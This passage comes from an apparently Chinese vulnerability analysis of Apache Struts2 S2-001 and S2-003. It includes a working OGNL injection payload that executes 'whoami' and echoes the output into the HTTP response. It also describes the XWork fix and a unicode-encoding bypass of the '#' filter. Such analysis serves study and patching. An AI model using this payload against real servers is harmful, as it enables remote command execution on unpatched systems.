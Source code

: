 这就一目了然了：这里会判断参数`parameters`中的`nameValue`的值是否存在，存在的话便填充到该文本输入框的`value`属性中。

### 可回显PoC

这里使用OGNL上下文对象`context`去获取`HttpServletResponse`对象，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dfa79a63d1996bedbf56419278fb6b51ea31ba51.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dfa79a63d1996bedbf56419278fb6b51ea31ba51.png)

于是有：

```java
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3d2bfda8533845ef18f32203d00d5e21e410bbf3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3d2bfda8533845ef18f32203d00d5e21e410bbf3.png)

漏洞修复
----

在struts2 `2.0.9`版本中，依赖的XWork的版本为`2.0.4`，在该版本中，`com.opensymphony.xwork2.util.TextParseUtil#translateVariables()` 判断循环的次数，如果超过`1`次，就退出`while(true)`循环体，从而避免`OGNL`表达式的递归执行，如下图所示。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-61c316d64189bdbab9f90d1ad4d32300a3c89c3f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-61c316d64189bdbab9f90d1ad4d32300a3c89c3f.png)

换言之，在处理完`%{username}`后，就不能对获取到的值再进行OGNL表达式计算了。

S2-003
------

官方漏洞公告：  
<https://cwiki.apache.org/confluence/display/WW/S2-003>

影响版本：`Struts 2.0.0 - Struts 2.0.11.2`

漏洞复现与分析
-------

如公告所述，该漏洞存在于Struts2默认的一个拦截器`ParametersInterceptor`。该过滤器在处理请求参数时，为了防止外界输入通过OGNL表达式来操作OGNL上下文对象`context`，对字符`#`进行了安全过滤。但由于OGNL可以识别unicode编码，故可将字符`#`进行unicode编码(即`\u0023`)后进行绕过。

下面来实际调试一下。

漏洞复现环境依旧使用`struts-2.0.11.2/apps/struts2-blank-2.0.11.2.war`。

